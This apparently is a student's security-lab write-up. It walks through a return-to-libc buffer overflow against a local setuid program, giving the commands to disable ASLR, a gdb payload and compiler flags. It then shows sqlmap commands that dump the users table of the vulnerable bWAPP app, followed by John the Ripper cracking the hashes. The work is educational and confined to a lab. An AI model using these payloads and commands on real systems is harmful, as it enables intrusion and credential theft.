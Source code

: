 # Task1: Software buffer overflow attack
**Student ID: 22110038**
**Name:** Phan Triệu Huy 
## Setup env:
**Run docker env:** docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab
![image](https://github.com/user-attachments/assets/06cbf417-5575-4641-84b9-447a46c15091)
**Create file task1.c and vuln.c to inject code:**
vuln.c:

![image](https://github.com/user-attachments/assets/a641a96e-9d42-49d0-a25b-3de4469e76ea)
task1.c:

![image](https://github.com/user-attachments/assets/3a749cb1-2267-4ba3-9d32-6f2ba89c51d4)
 
 **setup:**
Ubuntu and several other Linux-based systems use address space randomization to randomize the starting address of heap and stack.This makes guessing the exact addresses difficult; guessing addresses is one of the critical steps of buffer-overflow attacks. In this lab, we disable this feature using the following command:
sudo sysctl -w kernel.randomize_va_space=0
![image](https://github.com/user-attachments/assets/f8d0b7c8-25c8-4755-b848-7fcc944dc4cd)

In both Ubuntu 12.04 and Ubuntu 16.04 VMs, the/bin/sh symbolic link points to the/bin/dash shell. The dash shell in Ubuntu 16.04 has a countermeasure that prevents itself from being executed in a Set-UID process. Basically, if dash detects that it is executed in a Set-UID process, it immediately changes the effective user ID to the process’s real user ID, essentially dropping the privilege.Since our victim program is aSet-UID program, and our attack relies on running/bin/sh, the countermeasure in/bin/dash makes our attack more difficult.
sudo ln -sf /bin/zsh /bin/sh
![image](https://github.com/user-attachments/assets/17c0f108-c688-4a62-92bf-0fad1ed11384)

Compile program with options to defeat stack protecting mechanism and code execution on stack:
gcc vuln.c -o vuln -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
![image](https://github.com/user-attachments/assets/19e982d1-dc96-47c9-9339-8a85eddcd3dd)
## Attack:
**overview:**
![image](https://github.com/user-attachments/assets/cc724258-5395-47b6-9409-69621a79c880)
because shellcode larger 16byte . So, I'll use ret-to-libc.
**export path task1.c to env:**
export mypath="/home/seed/seclabs/lab_exam/task1.c"
![image](https://github.com/user-attachments/assets/be7a33d1-2531-433c-893b-f402628c0fae)
**run debug:**
gdb ./vuln
start
![image](https://github.com/user-attachments/assets/cff40445-01c0-4ddd-9ec6-3382fde290cc)
**get address of system, exit, mypath:**
![image](https://github.com/user-attachments/assets/ddd26bf2-509b-404a-a29f-c3a82c84dcf5)

system: 0xf7e50db0  will be inserted with format \xb0\x0d\xe5\xf
exit: 0xf7e449e0  will be inserted with format \xe0\x49\xe4\xf7
mypath("/home/seed/seclabs/lab_exam/task1.c"): 0xffffdf14 to \x14\xdf\xff\xff
=> r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' '\xe0\x49\xe4\xf7' +  '\x14\xdf\xff\xff')")
![image](https://github.com/user-attachments/assets/3a191e29-6018-4a78-a450-237b57bfc60e)
=> it execute code C but i have bug. 
**run remove ^M**
cat -v task1.c
sed -i 's/\r$//' task1.c
before: 
![image](https://github.com/user-attachments/assets/54e994ff-8957-4a71-b27e-d51f1c991c21)
after: 
![image](https://github.com/user-attachments/assets/25aee0e4-767d-4e09-9a94-71a10ed713df)

**complie this code c to task1 and set sudo ./task1:**
gcc task1.c -o task1 -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
sudo ./task1

**now get address of task1 like each step above:**

**before attack:**
![image](https://github.com/user-attachments/assets/603431f1-e1fe-44d5-81da-17768aec7fce)
**after attack:**
![image](https://github.com/user-attachments/assets/4fdcfcd4-c549-4e68-8084-469c28001205)

# Task2: Attack on the database of bWapp 
## Install:
**Install bWapp:**
docker pull raesene/bwapp
docker run --rm -it -p 8025:80 raesene/bwapp
localhost:8025/install.php
![image](https://github.com/user-attachments/assets/d454d936-825b-4939-a906-d207ea620f13)

**Install sqlmap:**
![image](https://github.com/user-attachments/assets/bb57e17f-06cc-4090-8042-7c7d1090ca7c)

![image](https://github.com/user-attachments/assets/6d342a2b-4068-4b2a-b759-b9024843b461)

## question1:  Use sqlmap to get information about all available databases
**get cookies of web:**

![image](https://github.com/user-attachments/assets/131f0c6d-dc0d-46f8-acef-2655f0581e3c)

**get valiable tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" --dbs --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/83a79a5b-1806-49a6-826b-7e101ec81231)

## question2:  Use sqlmap to get tables, users information
**get tables:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP --tables --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"

![image](https://github.com/user-attachments/assets/7f30c176-7beb-4e72-a5d4-d44f9ebbf4e9)

**get users information:**
run: 
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0"
info of tables:

![image](https://github.com/user-attachments/assets/310dea9c-6304-4ba7-b3b7-3cf06dcc1d34)

data of tables:
![image](https://github.com/user-attachments/assets/cd36bebf-4431-41f1-a69d-c3f0b42e7ecf)

## question3:  Make use of John the Ripper to disclose the password of all database users from the above exploit
**run (to get and save file password):**
python sqlmap.py -u "http://localhost:8025/sqli_2.php?movie=1" -D bWAPP -T users --dump --cookie "PHPSESSID=h6f6uromrvvjjk82mp26qv04g4; security_level=0" --output-dir= "C:\Users\LENOVO\Downloads"

![image](https://github.com/user-attachments/assets/ee10ed6a-11e8-49b1-b041-1eab3a4877a2)

because it is file .csv, so i'll convert it into file txt.
**code convert:**

![image](https://github.com/user-attachments/assets/1daa0695-8bdb-42bb-8ff6-240db1fddbbe)

ouput file hashes.txt: 

![image](https://github.com/user-attachments/assets/3020d8db-f1ef-4ff1-b9ca-198bc4fd2fab)

**run cracked:**
 ./john --incremental hashes.txt
 
 ![image](https://github.com/user-attachments/assets/8df31ea1-e2c3-414e-845b-2d1a5467d4fe)

 ./john --show hashes.txt
 
![image](https://github.com/user-attachments/assets/dd3d5d41-a1ae-4b7e-b0c4-7b6965e6491f)

so password is **bug**

**result:**

![image](https://github.com/user-attachments/assets/04431e25-9745-4667-91ff-97d0c8b64040)

![image](https://github.com/user-attachments/assets/25a2de92-b972-4c00-a999-834c5609efe6)
